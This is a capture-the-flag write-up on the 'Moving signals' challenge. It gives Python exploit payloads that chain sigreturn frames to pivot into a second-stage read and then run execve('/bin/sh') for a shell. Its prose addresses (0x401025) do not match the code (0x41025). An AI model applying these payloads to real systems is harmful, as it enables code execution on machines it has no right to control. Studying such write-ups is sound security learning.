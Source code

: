 # Moving signals
#### Description
We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.
#### Author
Tango
#### Points and solves
442 points, 91 solves.


We are given an extermly small binary:

```asm
0x0000000000041000 <+0>:     mov    rdi,0x0
0x0000000000041007 <+7>:     mov    rsi,rsp
0x000000000004100a <+10>:    sub    rsi,0x8
0x000000000004100e <+14>:    mov    rdx,0x1f4
0x0000000000041015 <+21>:    syscall
0x0000000000041017 <+23>:    ret
0x0000000000041018 <+24>:    pop    rax
0x0000000000041019 <+25>:    ret
```

## The vulnerability:
Well, of course we have full control over ```rip``` using the read syscall.
In addition we have a ```syscall``` gadget to use for ```sigreturn``` and ```execve```



## 1. Getting sigreturn:
```python
payload = b"A"*8 + p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x41025
frame.rdx = 0x300
frame.rsp = 0x41025
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)
```
This payload sets ```rax = 0xf``` and syscalls, the frame that is loaded gives the registers the values:
1. ```rax = 0 for ```read``` syscall
2. ```rdi = 0``` for ```stdin```
3. ```rsi = 0x401025``` is the only known address that is also writeable, (which is right after the given code)
4. ```rsp = 0x401025``` is to align the stack right back to where we are reading into.
5. ```rip = syscall_ret``` to execute this read syscall.
Basically we read the next phase of this exploit into the code segment of the binary, and after that has been done, 
We will return to whatever that will be written to address ```0x401025```

## 2. Getting shell:
```python
payload = p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = 0x41025+248 + 0x18
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x41000
frame.rip = syscall_ret
payload += bytes(frame) + b"/bin/sh\x00"
```

This utilizes another ```sigreturn``` to load the values required to perform ```execve(/bin/sh)```
1. ```rax = 59``` for ```execve``` syscall
2. ```rdi = 0x401026 + 248 + 0x18``` for the address that ```/bin/sh``` will be on the stack.
3. ```rsp = 0x41000``` just to have some stack space for saftey.


And we get shell :).
